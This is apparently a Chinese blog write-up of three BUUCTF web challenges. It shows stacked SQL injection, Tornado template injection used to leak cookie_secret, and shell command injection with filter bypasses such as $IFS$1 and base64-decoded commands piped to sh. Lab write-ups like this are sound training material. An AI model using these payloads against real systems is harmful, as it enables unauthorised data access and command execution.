<!--yml
category: 未分类
date: 2022-04-26 14:41:18
-->

# BUUCTF部分web题解（easysql，easy_tornado，Ping Ping Ping）_obsetear的博客-CSDN博客_ctf web题ping

> 来源：[https://blog.csdn.net/weixin_44300286/article/details/108512157](https://blog.csdn.net/weixin_44300286/article/details/108512157)

#### easysql

经过测试，发现过滤了很多东西，但有堆叠注入



查询语句大概是

```
select $_GET['query'] || flag from flag 
```

别问我是怎么知道的，问就是看的wp

构造payload：`*,1`，得到`select *,1 || flag from flag`，即可查出表中的内容


还可以用另一种解法：通过堆叠注入，设置sql_mode的值为PIPES_AS_CONCAT，从而将||视为字符串的连接操作符而非或运算符。

```
1;set sql_mode=PIPES_AS_CONCAT;select 1 
```

得到`select 1;set sql_mode=PIPES_AS_CONCAT;select 1 || flag from flag`

**拓展**



`1 || name`被看成了一个整体，上述语句相当于：`select A,B from guestbook`，由于*代表查询所有内容，故能回显出整个表的内容

@@sql_mode：是一组mysql支持的基本语法及校验规则

```
select @@sql_mode;	//查看sql_mode
select @@global.sql_mode;	//查看全局sql_mode
select @@session.sql_mode;	//查看当前会话sql_mode 
```



语句`select 1;set sql_mode=PIPES_AS_CONCAT;select 1 || name from guestbook;`有三个部分，`select 1;`就不用说了，`set sql_mode=PIPES_AS_CONCAT;`设置`sql_mode`的值为`PIPES_AS_CONCAT`，使`||`变成字符串的连接操作符，最后才能使得`select 1 || name from guestbook;`能查询成功

#### easy_tornado



三个文件说明了flag在/fllllllllllllag里，`filehash=md5(cookie_secret+md5(filename))`，现在可以构造：`filename=/fllllllllllllag&filehash=？`，现在只有知道cookie_secret就可以构造出完整的payload

payload如果没有构造filehash的值就会跳转到一个报错界面
经搜索发现render是python中的一个渲染函数，渲染变量到模板中，即可以通过传递不同的参数形成不同的页面。

测试后发现报错界面存在服务端模板注入攻击 （SSTI），
尝试输入?msg={{1+1}}，发现不存在运算

之后进行各种尝试与资料获取发现对于tornado框架存在附属文件handler.settings,输入?msg={{handler.settings}}


然后根据公式：`filehash=md5(cookie_secret+md5(filename))`构造出：?`filename=/fllllllllllllag&filehash=b3dd1774657e49becaf9ed92fcd18eda`


#### Ping Ping Ping

命令执行，;或管道符（|）分割批量执行命令


用cat查看一下flag.php，发现过滤了空格

以下几种方法可以替换空格：

```
${IFS}
${IFS}$1
$IFS$1 //$1改成$加其他数字貌似都行
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能 
```

不过这里很多东西都被过滤了，还好`$IFS$1`可以替换成功，但是flag字眼也被过滤了，先查看一下index.php的源码

这时过滤了什么一眼就可以看出来了，`preg_match("/.*f.*l.*a.*g.*/", $ip)`匹配一个字符串中，是否按顺序出现过flag四个字母

payload1：拼接命令

```
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php 
```


payload2：base64编码绕过

```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh 
```

```
Y2F0IGZsYWcucGhw是cat flag.php的base64编码
|base64 -d：对前面的字符串进行base64解密
|sh：把左边的命令交给sh去执行 
```

payload3：内联执行

```
?ip=127.0.0.1;cat$IFS$1`ls` 
```

将反引号内命令的输出作为输入执行，这样也可以查看flag.php的内容

**拓展**

管道符

Linux和windows通用的管道符

```
cmd1 | cmd2 只执行cmd2

cmd1 || cmd2 只有当cmd1执行失败后，cmd2才被执行

cmd1 & cmd2 先执行cmd1，不管是否成功，都会执行cmd2

cmd1 && cmd2 先执行cmd1，cmd1执行成功后才执行cmd2，否则不执行cmd2 
```


linux还有一个`;`管道符，作用和&一样

**空格过滤**

1、${IFS}

```
${IFS}
${IFS}$1
$IFS$1 
```


2、重定向符<>

**黑名单过滤**

1、拼接


2、base64编码


```
|base64 -d：对前面的字符串进行base64解密
|bash：把左边的输出交给bash去执行
|sh：与bash相似 
```

3、单双引号，反斜杠\，`$1`，`$2`，`$@`
